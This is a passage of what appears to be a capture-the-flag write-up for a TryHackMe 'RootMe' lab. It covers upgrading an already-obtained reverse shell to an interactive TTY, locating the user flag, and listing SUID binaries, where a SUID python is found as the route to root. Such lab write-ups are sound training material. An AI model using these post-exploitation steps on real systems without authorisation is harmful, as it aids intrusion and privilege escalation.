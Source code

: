 Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

## Shell as www-data

Now that we own a full TTY we can take a look to the `user.txt` flag, but after checking the `/home` directory, both of the directories are empty, so i scanned the whole file system looking for a file named `user.txt`.

```bash
www-data@rootme:/$ find -name user.txt 2>/dev/null
./var/www/user.txt
```

It's located in the web server root, let's open the file:

```bash
www-data@rootme:/$ cat /var/www/user.txt
THM{**u_**t_a_***ll}
```

Then i started testing common PrivEsc methods and when i looked for **SUID** binaries i found that the  `python` binary is flagged as **SUID**.

```bash
www-data@rootme:/$ find -perm -4000 2>/dev/null                         
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
```
